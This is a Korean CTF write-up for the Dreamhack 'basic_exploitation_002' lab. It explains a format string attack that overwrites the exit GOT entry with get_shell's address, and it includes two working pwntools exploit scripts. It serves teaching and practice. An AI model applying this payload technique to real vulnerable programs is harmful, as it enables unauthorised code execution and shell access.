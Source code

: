 * **get_shell** : int(0x8048609) = **`134,514,185`**

* **exit_ got** : **`0x804a024`**

```C
printf(p32(0x804a024) + %134514185-4c%1$n)
```

* `%134514185c` : get_shell의 주소 값 **0x8048609** 만큼의 문자열 길이

* `%n` : **%134514185-4c** 제알 앞단에 사용한 `exit_got`(4byte)를 뺀 만큼의 문자열 길이를 첫번째 참조 값에 저장

* `1$` : `printf(buf)`는 첫번째의 인자의 값을 가져오기에 `1$`로 첫번째 인자를 참조하겠다 명시

하지만, 1억 3천만개의 스페이스 문자를 입력하기에는 `alarm(30);`로 인해 TIME OUT될 가능성이 크기에 두 번으로 나눠 페이로드를 전송한다.

현재 파일은 32bit체재로 `exit_got` 또한 32bit, 총 4byte 이므로 [exit_got]와 [exit_got+2] 이렇게 나눠서 전송하면 가능하다.

```python
from pwn import *

context.log_level = 'debug'
p = process('./basic_exploitation_002')
e = ELF('./basic_exploitation_002')
#p = remote("host1.dreamhack.games", 15758)

exit = e.got['exit'] # 0x804a024

payload = p32(exit+2) + p32(exit) + b"%2044c%1$hn%32261c%2$hn"
# 0x8048609
p.send(payload)

p.interactive()
```

* `%n` : 4byte, `%hn` : 2byte, `%hhn` : 1byte 전송

* `[exit+2]` = `%2044c`

* `[exit]` = `%32261c`

* `%2044c` = 0x804 - 8 (0x7fc)
  
  * **8을 뺀 이유** : `p32(exit+2) + p32(exit)` 총 8byte 전달했기에 get_shell의 앞 2byte `0x804`를 맞추기 위해 **0x7fc**를 전송(0x7fc과 앞에 전달한 8byte를 더하면 0x804)

* `%32261c` = 앞 **8byte** + `%2044c`(**0x7fc**) + **0x7e05** = **`0x8609`** get_shell의 뒷 8byte의 값이 나오기에 이렇게 전달

```python
from pwn import *

p = process('./basic_exploitation_002')
e = ELF('./basic_exploitation_002')

exit = e.got['exit']

payload = fmtstr_payload(1, {e.got['exit'] : e.symbols['get_shell']})

p.send(payload)

p.interactive()
```

이와 같이 pwntools에서 제공하는 함수를 통한 쉬운 포맷스트링 페이로드 작성도 가능하다.